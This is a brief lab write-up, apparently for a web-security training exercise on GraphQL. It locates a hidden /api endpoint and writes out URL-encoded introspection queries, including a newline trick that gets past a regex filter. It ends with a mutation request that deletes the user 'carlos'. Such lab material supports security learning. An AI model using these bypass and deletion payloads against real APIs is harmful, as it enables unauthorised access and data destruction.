 
 
We found out that `/api` is the hidden endpoint by send a get request to it and getting the following response

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
Set-Cookie: session=KY983HoSE2sAwqylZWysXQOPI5pABQ15; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 19

"Query not present"
```

```
https://0a6d00d2049bd7b08406b8a900b90087.web-security-academy.net/api?query=query{__typename}


# introspection query in get request blocked
`/api?query=query+IntrospectionQuery+%7B%0A++__schema+%7B%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A`


# bypass regex
`/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A`


# deleting carlos using mutation 

https://0a6d00d2049bd7b08406b8a900b90087.web-security-academy.net/api?query=mutation+%7B%0A%09deleteOrganizationUser%28input%3A%7Bid%3A+3%7D%29+%7B%0A%09%09user+%7B%0A%09%09%09id%0A%09%09%7D%0A%09%7D%0A%7D
```
